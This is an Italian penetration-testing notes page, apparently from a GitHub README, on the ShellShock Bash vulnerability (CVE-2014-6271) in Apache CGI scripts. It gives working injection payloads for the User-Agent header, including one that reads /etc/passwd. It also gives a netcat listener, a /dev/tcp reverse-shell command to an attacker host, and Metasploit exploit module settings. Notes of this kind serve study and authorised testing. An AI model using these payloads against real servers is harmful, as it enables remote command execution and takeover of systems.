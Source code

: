 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Bash CVE-2014-6271 ShellShock

**ShellShock** è una vulnerabilità critica scoperta nel 2014 che interessa molte versioni del linguaggio **Bash** su sistemi *Unix-like*. Consente ad un attaccante di eseguire comandi arbitrari su un server vulnerabile sfruttando variabili d'ambiente manipolate, comunemente attraverso script **CGI** serviti da **Apache**.

## Bash e CGI

**Bash (Bourne Again Shell)** è una shell a riga di comando molto diffusa nei sistemi Linux. <br>
Una **shell** è l'interfaccia testuale che consente l'interazione diretta con il sistema operativo, eseguendo comandi e script.

**CGI (Common Gateway Interface)** è uno standard che permette a un web server (es. Apache) di eseguire programmi o script (come `.cgi` o `.sh`) esterni, al fine di generare contenuti dinamici. <br>
Quando un utente visita una pagina che richiede un'elaborazione, il server Apache invoca lo script CGI per processare l'informazione.

Gli script `.cgi` sono spesso scritti in Bash, Python o Perl, ed eseguono codice con i permessi del server web. <br>
Se la shell di riferimento è una versione di Bash vulnerabile, gli script possono essere utilizzati per iniettare comandi arbitrari sfruttando ShellShock.

La vulnerabilità è causata dal modo in cui Bash gestisce **le variabili d'ambiente contenenti dichiarazioni di funzione**: 
```bash
() { :; }; echo vulnerabile
```
Questa stringa dovrebbe essere interpretata come una funzione vuota, ma Bash esegue anche il comando `echo vulnerabile`, rendendo possibile l'injection di comandi.

---

## Exploitation manuale via BurpSuite

Impostiamo il proxy FoxyProxy su Firefox e abilitiamo **Intercept** su BurpSuite.

Carichiamo la pagina CGI e intercettiamo la richiesta HTTP. Cerchiamo l'header:
```http
User-Agent: Mozilla/5.0 (...)
```
Sostituiamo il valore con:
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
- `() { :; };` → definisce una funzione vuota
- `echo; echo;` → aggiunge output visibile per test
- `/bin/bash -c '<comando>'` → esegue il comando specificato

adesso abbiamo la possilitá di lanciare i comandi che vogliamo e quindi possiamo aprire una reverse shell dando il comando:

`nc -nvlp <PORTA>`

per configurare Netcat in modo che sia in ascolto su una determinata porta

successivamente possiamo usare il seguente comando
```bash
bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1
```
da inserire su BurpSuite.

Quindi il comando completo sará:
```bash
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1'
```

Appena il comando viene eseguito, avremo una reverse shell interattiva dal target vulnerabile.

---

## Exploitation automatizzato con Metasploit

### Scanner:
```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
run
```

### Exploit:
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
set PAYLOAD cmd/unix/reverse_netcat #meglio lasicare quello di default
set LHOST <IPAttaccante>
set LPORT <Porta>
run
```
Questo modulo automatizza l'invio del payload e apre una reverse shell sulla macchina target.

>Consiglio di vedere la pagina <a href="https://github.com/opsxcq/exploit-CVE-2014-6271">GitHub</a> per avere maggiori dettagli.

---
